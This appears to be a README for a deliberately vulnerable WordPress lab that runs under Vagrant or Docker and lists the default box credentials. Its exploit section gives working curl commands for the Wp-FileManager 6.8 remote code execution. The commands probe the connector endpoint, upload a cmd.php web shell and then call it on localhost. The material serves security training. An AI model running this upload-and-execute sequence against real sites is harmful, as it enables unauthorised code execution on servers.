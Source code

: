 # WordpressVuln



A vulnerable wordpress site


# Install 

The vulnerable wordpress server run in :
- a virtual machine on an ubuntu host 
- in a docker



## VM

### Install thanks vagrant  
```
sudo apt install vagrant
git clone https://github.com/jossets/WordpressVuln
vagrant up
```

### Credentials 

Vagrant alpine box credentials are:
- login: vagrant 
- password: vagrant 

## Docker 

### Install thanks docker-compose  
```
sudo apt install docker-compose
git clone https://github.com/jossets/WordpressVuln
docker-compose up
```

# Exploit 

WordPress Plugin Wp-FileManager 6.8 - RCE 
https://www.exploit-db.com/exploits/49178

## Detect 
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

{"error":["errUnknownCmd"]}
```

## Exploit

### Upload cmd.php
```
curl -F "cmd=upload" -F "target=l1_Lw"  -F "upload[]=@cmd.php" "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```

### Run it
```
curl  "http://localhost:8080/wp-content/plugins/wp-file-manager/lib/files/cmd.php"

Pwnd
```